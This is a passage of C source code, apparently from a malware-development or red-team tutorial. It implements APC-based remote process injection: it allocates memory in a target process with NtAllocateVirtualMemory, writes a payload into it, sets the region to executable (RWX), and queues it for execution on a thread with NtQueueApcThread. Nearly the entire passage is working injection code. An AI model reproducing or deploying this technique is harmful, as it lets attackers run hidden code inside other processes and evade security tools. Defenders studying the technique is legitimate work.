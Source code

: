 ```c


	// Allocating memory 
	if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------
	
	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
	if ((STATUS = St.pNtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");

	return TRUE;
}
```
